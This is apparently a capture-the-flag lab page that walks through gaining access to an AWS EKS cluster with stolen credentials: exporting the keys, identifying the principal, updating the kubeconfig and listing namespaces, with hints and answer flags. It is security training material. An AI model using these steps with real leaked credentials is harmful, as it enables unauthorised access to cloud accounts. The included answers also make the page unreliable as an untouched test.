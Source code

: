 # Kubernetes Initial Access

Microsoft's Threat Matrix for Kubernetes highlights a number of [Initial Access](https://microsoft.github.io/Threat-Matrix-for-Kubernetes/tactics/InitialAccess/){: target="_blank" rel="noopener"} techniques used by attackers to compromise a cluster. One of the techniques, documented as [Using cloud credentials](https://microsoft.github.io/Threat-Matrix-for-Kubernetes/techniques/Using%20Cloud%20Credentials/){: target="_blank" rel="noopener"}, occurs when cloud credentials are stolen or unintentionally leaked.

## AWS CLI Configuration

The AWS Command Line Interface (CLI) provides programmatic access to the AWS service APIs. To gain access to the AWS Elastic Kubernetes Cluster (EKS), you need to configure the AWS CLI to use the stolen credentials that you received from the village hosts. Set the required [AWS CLI environment variables](https://docs.aws.amazon.com/cli/v1/userguide/cli-configure-envvars.html){: target="_blank" rel="noopener"} to use the stolen credentials. What is the name of the compromised AWS principal?

??? tip "Hint"

    - The AWS CLI checks several locations for credentials when authenticating to the AWS APIs. This includes a local configuration file (~/.aws/credentials), environment variables, and the instance metadata service when running inside an AWS process (EC2, Lambda, etc.). Set the `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`, and `AWS_DEFAULT_REGION` environment variables to the stolen credentials.

        ```bash
        export AWS_ACCESS_KEY_ID=STOLEN_ACCESS_KEY
        export AWS_SECRET_ACCESS_KEY=STOLEN_SECRET_KEY
        export AWS_DEFAULT_REGION=STOLEN_REGION
        ```

    - The AWS Security Token Service (STS) has a [GetCallerIdentity](https://docs.aws.amazon.com/STS/latest/APIReference/API_GetCallerIdentity.html){: target="_blank" rel="noopener"} that returns details about the IAM user or role calling the API. Use the `aws sts get-caller-identity` command to retrieve the compromised principal's name and AWS account id.

        ```bash
        aws sts get-caller-identity
        ```

        !!! abstract "Expected Output"
            ```json hl_lines="4"
            {
              "UserId": "AIDA2ZCFBDI7W52ZHQYQ7",
              "Account": "123456789012",
              "Arn": "arn:aws:iam::123456789012:user/?????"
            }
            ```

??? success "Answer"

    - The compromised principal's name is in the **Arn** field in the output, which identifies an IAM user named **kubeace-maverick** followed by a random identifier.

        ```
        kubeace-maverick-randomid
        ```

## AWS EKS Initial Access

Amazon's Elastic Kubernetes Service (EKS) is a managed Kubernetes service that makes it simple to run Kubernetes on AWS without needing to install, configure, and maintain your own Kubernetes control plane. EKS is integrated with many AWS services, including the [Identity and Access Management (IAM)](https://docs.aws.amazon.com/eks/latest/userguide/cluster-auth.html){: target="_blank" rel="noopener"} service.

With the appropriate [EKS access entry](https://docs.aws.amazon.com/eks/latest/userguide/access-entries.html){: target="_blank" rel="noopener"} and permissions, AWS principals can configure `kubectl` to authenticate directly to the EKS cluster.

1. Use the AWS CLI to search the AWS account for EKS clusters. What is the name of the EKS cluster that you need to access?

    ??? tip "Hint"

        - The `aws eks list-clusters` command lists the EKS clusters in the specified AWS account.

            ```bash
            aws eks list-clusters
            ```

            !!! abstract "Expected Output"
                ```json hl_lines="3"
                {
                  "clusters": [
                    "?????"
                  ]
                }
                ```

    ??? success "Answer"

        - The EKS cluster you need to access is named **hth-eks-cluster**.

            ```
            hth-eks-cluster
            ```

1. Use AWS CLI to update your machine's [kubeconfig file](https://docs.aws.amazon.com/eks/latest/userguide/create-kubeconfig.html){: target="_blank" rel="noopener"} and access the EKS cluster. What Kubernetes group(s) is the compromised AWS principal a member of?

    ??? tip "Hint"

        - The `aws eks update-kubeconfig` command updates the `~/.kube/config` file with details `kubectl` needs to authenticate to the `hth-eks-cluster` cluster.

            ```bash
            aws eks update-kubeconfig --name hth-eks-cluster
            ```

            !!! abstract "Expected Output"
                ```json hl_lines="4"
                Updated context arn:aws:eks:us-west-2:123456789012:cluster/hth-eks-cluster in /Users/user/.kube/config
                ```

        - Similar to the `aws sts get-caller-identity` command, `kubectl` has its own command that returns details about the authenticated user. Use the `kubectl auth whoami` command to view the compromised principal's group memberships.

            ```bash
            kubectl auth whoami
            ```

            !!! abstract "Expected Output"
                ```
                ATTRIBUTE                                              VALUE
                Username                                               kubeace-maverick-randomid
                UID                                                    aws-iam-authenticator:123456789012:AIDA2ZCFBDI7W52ZHQYQ7
                Groups                                                 [?????]
                Extra: accessKeyId                                     [AKIA2ZCFBDI74CS5EG5L]
                Extra: arn                                             [arn:aws:iam::123456789012:user/kubeace-maverick-randomid]
                Extra: canonicalArn                                    [arn:aws:iam::123456789012:user/kubeace-maverick-randomid]
                Extra: principalId                                     [AIDA2ZCFBDI7W52ZHQYQ7]
                Extra: sessionName                                     []
                Extra: sigs.k8s.io/aws-iam-authenticator/principalId   [AIDA2ZCFBDI7W52ZHQYQ7]
                ```

    ??? success "Answer"

        - The compromised principal is a member of the **hth-data-viewers** and **system:authenticated** groups. Based on the name of the first group (`hth-data-viewers`), it is likely that the principal has read-only access to data inside the cluster.

            !!! abstract "Expected Output"
                ```
                Groups [hth-data-viewers system:authenticated]
                ```

1. Use `kubectl` to list the namespaces in the Kubernetes cluster. Which namespace do you think contains the *hth* data?

    ??? tip "Hint"

        - Run the `kubectl get namespaces` command to list the namespaces in the EKS cluster.

            ```bash
            kubectl get namespaces
            ```

            !!! abstract "Expected Output"
                ```bash
                NAME                STATUS   AGE
                amazon-cloudwatch   Active   5d18h
                calico-system       Active   5d17h
                cert-manager        Active   5d17h
                default             Active   5d18h
                gatekeeper-system   Active   5d17h
                ?????               Active   5d17h
                kube-node-lease     Active   5d18h
                kube-public         Active   5d18h
                kube-system         Active   5d18h
                tigera-operator     Active   5d17h
                ```

    ??? success "Answer"

        - The **hth** namespace contains the Kubernetes resources that are viewable by members of the **hth-data-viewers** group.

            !!! abstract "Expected Output"
                ```
                hth                 Active   5d17h
                ```

## Village Challenges

Now that you have successfully gained access to the EKS cluster using the compromised AWS credentials, it is time to start elevating privileges inside the cluster and exfiltrating HTH data. Navigate to the [Airborneio-24 Challenge](./airborneio-24.md) to find the first flag.
